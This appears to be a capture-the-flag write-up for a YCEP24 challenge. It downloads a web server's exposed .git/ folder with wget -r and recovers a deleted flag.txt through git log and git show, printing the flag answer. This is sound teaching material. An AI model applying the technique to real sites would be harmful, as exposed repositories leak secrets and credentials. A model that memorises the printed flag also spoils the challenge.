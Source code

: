# Solution

1. Explore the website will reveal the .git/ folder
* wget -r https://domain-name:port/.git/

2. Move into the folder that contains .git/ (Use ls -la to see hidden file).

3. Run **git log** command

```commit 2872842238b7d9ef6b9baaf47eeb5f764cc7d33c
Author: kiraisha <mahwenqiang185@gmail.com>
Date:   Sat Jun 1 16:25:11 2024 +0800

    Removing unnecessary file

commit 643526e70c30dd74251f6f7e299490dd5f72336c
Author: kiraisha <mahwenqiang185@gmail.com>
Date:   Sat Jun 1 16:24:45 2024 +0800
```

4. Run **git show** to display the commit and get the flag.

```
$ git show 643526e70c30dd74251f6f7e299490dd5f72336c
commit 643526e70c30dd74251f6f7e299490dd5f72336c
Author: kiraisha <mahwenqiang185@gmail.com>
Date:   Sat Jun 1 16:24:45 2024 +0800

    Adding secret notes

diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..9222097
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1 @@
+YCEP24{W3_f0rg3t_t0_s37_f1l3_pE7Miss1i0n_nas8s2n2}
\ No newline at end of file
```

Flag: YCEP24{W3_f0rg3t_t0_s37_f1l3_pE7Miss1i0n_nas8s2n2}